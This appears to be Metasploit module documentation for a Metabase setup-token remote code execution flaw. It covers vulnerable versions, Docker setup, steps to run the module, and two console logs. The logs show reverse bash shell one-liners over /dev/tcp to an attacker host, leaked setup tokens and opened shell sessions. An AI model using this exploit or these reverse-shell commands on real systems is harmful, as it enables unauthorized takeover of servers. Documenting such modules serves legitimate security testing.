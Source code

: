 ## Vulnerable Application

Metabase versions before 0.46.6.1 contain a flaw where the secret setup-token
is accessible even after the setup process has been completed. With this token
a user is able to submit the setup functionality to create a new database.
When creating a new database, an H2 database string is created with a TRIGGER
that allows for code execution. We use a sample database for our connection
string to prevent corrupting real databases.

Successfully tested against Metabase 0.46.6, 0.44.4, 0.42.1.

### Install

Example of impacted versions:

```
docker run --rm -p 3000:3000 --name metabase metabase/metabase:v0.46.6
docker run --rm -p 3000:3000 --name metabase metabase/metabase:v0.44.4
docker run --rm -p 3000:3000 --name metabase metabase/metabase:v0.42.1
```

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/linux/http/metabase_setup_token_rce`
1. Do: `set rhosts [ip]`
1. Do: `run`
1. You should get a shell.

## Options

## Scenarios

### Metabase 0.42.1 on Docker

```
msf6 exploit(linux/http/metabase_setup_token_rce) > run rhost=192.168.123.1 lhost=192.168.123.1 rport=3000
[*] Reloading module...

[+] bash -c '0<&30-;exec 30<>/dev/tcp/192.168.123.1/4444;sh <&30 >&30 2>&30'
[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version Detected: 0.42.1
[+] Found setup token: e02ce681-0cf7-416f-a205-75656b168b4c
[*] Sending exploit (may take a few seconds)
[*] Command shell session 1 opened (192.168.123.1:4444 -> 192.168.123.1:58422) at 2024-10-17 09:59:25 +0100

whoami
metabase
```

### Metabase 0.46.6 on Docker

```
msf6 > use exploit/linux/http/metabase_setup_token_rce
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/metabase_setup_token_rce) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(linux/http/metabase_setup_token_rce) > set lhost 111.111.11.111
lhost => 111.111.11.111
msf6 exploit(linux/http/metabase_setup_token_rce) > set verbose true
verbose => true
msf6 exploit(linux/http/metabase_setup_token_rce) > exploit

[+] bash -c '0<&46-;exec 46<>/dev/tcp/111.111.11.111/4444;sh <&46 >&46 2>&46'
[*] Started reverse TCP handler on 111.111.11.111:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version Detected: 0.46.6
[+] Found setup token: 45a2c97a-97f5-4a89-8f37-769b13411d16
[*] Sending exploit
[*] Command shell session 1 opened (111.111.11.111:4444 -> 222.22.2.2:55650) at 2023-07-28 12:48:47 +0000

id
uid=2000(metabase) gid=2000(metabase) groups=2000(metabase),2000(metabase)
```
